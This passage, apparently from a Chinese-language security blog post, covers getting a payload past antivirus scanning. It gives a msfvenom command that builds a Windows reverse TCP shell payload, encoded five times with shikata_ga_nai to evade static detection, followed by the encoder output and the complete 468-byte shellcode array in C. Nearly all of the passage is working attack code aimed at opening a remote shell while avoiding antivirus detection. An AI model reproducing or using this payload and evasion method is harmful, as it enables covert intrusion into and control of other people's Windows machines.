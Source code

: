 ![virscan-1](//images2015.cnblogs.com/blog/676200/201607/676200-20160730140539247-1265277000.png)

既然静态分析躲不过,那我把payload加密一下看看行不行? 这次先用msfvenom生成二进制的payload:

```bash
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp  LHOST=10.0.1.104 LPORT=4444 -e x86/shikata_ga_nai -i 5 -b '\x00\x26' -f c
```

运行后可以得到一个payload的c数组:

    Found 1 compatible encoders
    Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 360 (iteration=0)
    x86/shikata_ga_nai succeeded with size 387 (iteration=1)
    x86/shikata_ga_nai succeeded with size 414 (iteration=2)
    x86/shikata_ga_nai succeeded with size 441 (iteration=3)
    x86/shikata_ga_nai succeeded with size 468 (iteration=4)
    x86/shikata_ga_nai chosen with final size 468
    Payload size: 468 bytes
    unsigned char buf[] = 
    "\xd9\xc0\xd9\x74\x24\xf4\xbe\xb6\x38\x73\x74\x5a\x31\xc9\xb1"
    "\x6f\x83\xc2\x04\x31\x72\x14\x03\x72\xa2\xda\x86\xcf\x7d\x32"
    "\xfe\xa3\x5b\x98\xd9\xb0\x7f\xeb\x80\x0b\xb6\xa2\x5d\xef\x8a"
    "\xc1\xac\xb5\x1a\xc9\x94\x59\x4f\x10\x64\x17\x4e\xdc\xe8\x3f"
    "\xb0\x7e\x06\x39\x86\x45\xcf\xf1\xe1\x64\x8b\xa2\x76\xb9\x5c"
    "\x82\xe8\xd5\x84\x6d\x13\x7f\xfe\xf4\xc9\xa7\xb6\xdc\x8d\x9f"
    "\x1f\xe8\x40\x84\xc0\xea\x45\x27\x24\x14\x21\x1f\x88\xc3\x0e"
    "\xc6\x89\x3c\x71\xef\x08\x69\x72\x2c\x7d\x5d\x25\xce\x67\xbe"
    "\x8f\x27\xdb\x27\x18\x45\xf2\x30\x84\x4e\x85\x23\x66\xde\x2d"
    "\x51\x52\xa3\xcc\xd5\xdd\xfa\x37\x76\x98\xc5\x4c\x10\x48\xf3"
    "\xc4\x91\x12\xd4\x13\xe6\xb0\x9c\x74\x8b\x8a\x7e\xfb\xe6\xef"
    "\x86\x5f\x89\xdd\xd8\xc3\x33\x66\xd5\x4d\x0e\xbf\x8c\x69\x9f"
    "\xcd\xa9\xb5\x80\x5a\xee\x2c\x89\xc5\x1c\x75\xeb\x94\x4a\xa0"
    "\xcc\x9f\xaf\xfb\x72\xfd\x17\x23\xdb\x2d\x06\xa9\x60\x8e\x66"
    "\xbf\xac\x2a\x9c\x19\x2b\x6f\xae\x7d\x06\x4d\xf6\xd3\x64\xfd"
    "\xa7\x6d\xfa\x70\x48\x1a\x1a\xaf\x63\xcf\x66\x7a\x41\x8e\xda"
    "\xc6\xbc\x47\x8e\xdd\xe3\x39\xd1\xa4\xd8\xa6\x6f\xb4\x6a\xc3"
    "\x35\x27\x17\x3a\x1f\x34\x73\xda\xa8\x1e\x7d\xa6\xab\x8c\xca"
    "\x25\xf8\xcd\xe4\x22\x32\x78\x81\xf1\x01\x22\x70\x12\x77\xa2"
    "\x41\x74\xb4\xe2\xb9\x03\xd6\x2a\xc3\x41\x3a\x2a\x7a\xa8\x2a"
    "\x6b\xd6\x19\x06\x04\x19\x25\xc2\x8a\x7e\xc6\xf7\x4c\xd4\x69"
    "\xe6\x1e\x49\xc0\x4b\x9d\x6e\x53\xbb\xe7\x56\x5b\x66\xd1\x7c"
    "\xbe\x15\xb9\xde\xc9\x38\x54\xd5\x8d\x83\x8e\x40\x09\x96\xc1"
    "\xef\xb8\x1a\x1f\x6d\xb8\x31\x7c\xbb\x49\x3c\xee\x98\x8e\x47"
    "\x1d\x56\x6e\xbe\x67\xeb\x25\xc5\x02\x5d\x05\x36\x6b\x5f\xe8"
    "\x7c\x68\x44\xa8\xd8\xa6\x7f\xb8\x67\x29\x25\xfa\xa6\x80\x46"
    "\x09\x8d\x2b\x0d\xe8\x1c\xa4\x60\xf0\xec\x7d\xb9\xc4\xbd\xaf"
    "\xdc\x29\x49\xd4\x7a\x0f\xef\x2e\xdd\x4b\x20\x33\x7a\xfd\x20"
    "\x1d\xf1\x27\x7a\x6e\x38\x27\xfe\x07\x31\x6d\xa9\x33\x09\x88"
    "\x43\x59\xa1\x59\xbd\xe5\x82\xa5\x34\x6a\x0c\x1a\xb2\x81\xc3"
    "\x93\x9b\x6c\xce\xac\xc6\xa7\x7a\xa9\xe8\x87\x84\xb4\x37\x60"
    "\xfd\xc7\x65";
